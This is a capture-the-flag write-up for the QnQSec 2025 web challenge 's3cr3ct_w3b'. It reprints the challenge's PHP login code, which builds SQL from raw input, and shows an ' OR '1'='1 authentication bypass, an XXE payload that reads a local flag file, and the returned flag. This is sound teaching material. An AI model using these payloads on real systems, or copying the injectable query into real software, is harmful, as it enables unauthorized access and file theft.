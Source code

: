 ```yaml
---
layout: post
title:  "s3cr3ct_w3b"
date:   2025-10-18 16:33:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /qnqsec-2025-s3cr3ct-w3b/
---
```


**Title:** s3cr3ct_w3b

**Category:** web

**Description:** I have hidden secret in this web can you find out the secret? `http://161.97.155.116:8081/`

**Author:** LemonTea

I get dockerfiles for local testing. From there I can see the flag will be at `/var/www/html/flag.txt`. 

When first visiting the site I see a login page. In `login.php` I see this:
```t
<?php  
session_start();  
  
$host = 'db';  
$db   = 'login_db';  
$user = 'root_users';  
$pass = 'root';    
$charset = 'utf8mb4';  
  
$dsn = "mysql:host=$host;dbname=$db;charset=$charset";  
$options = [  
   PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,  
   PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,  
];  
  
try {  
   $pdo = new PDO($dsn, $user, $pass, $options);  
} catch (PDOException $e) {  
   die("Database connection failed: " . $e->getMessage());  
}  
  
$user_data = null;  
$error = null;  
  
if (!empty($_POST['username']) && !empty($_POST['password'])) {  
   $username = $_POST['username'];  
   $password = $_POST['password'];  
  
   $query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";  
  
   try {  
       $stmt = $pdo->query($query);  
       $user_data = $stmt->fetch();  
   } catch (PDOException $e) {  
       error_log("SQL Error: " . $e->getMessage());  
       $user_data = false;  
       $error = "Database error occurred";  
   }  
  
   if ($user_data) {  
       $_SESSION['logged_in'] = true;  
       $_SESSION['username'] = $user_data['username'];  
       $_SESSION['role'] = $user_data['role'] ?? 'user';  
       header('Location: index.php');  
       exit();  
   } else {  
       $error = $error ?? "Invalid username or password!";  
   }  
}  
?>
```
I login with the credentials: username: `admin`, and password: `' OR '1'='1`. 

The single line (`$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";`) building `$query` from raw `$_POST` variables is the root cause. There is no input sanitization for what the user supplies. 

The query starts as `SELECT * FROM users WHERE username = '$username' AND password = '$password'` so `SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'` works even if we have no password. `'1'='1'` always so we are logged in. 

Once I am authenticated I can upload and parse XML files on the page. I create an XML file that will retrieve the contents of the flag file:
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE root [  
 <!ENTITY flag SYSTEM "file:///var/www/html/flag.txt">  
]>  
<root>&flag;</root>
```

After uploading `xxe.xml` the page returns this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY flag SYSTEM "file:///var/www/html/flag.txt">
]>
<root>QnQSec{sql1+XXE_1ng3tion_but_using_php_filt3r}</root>
```

`QnQSec{sql1+XXE_1ng3tion_but_using_php_filt3r}`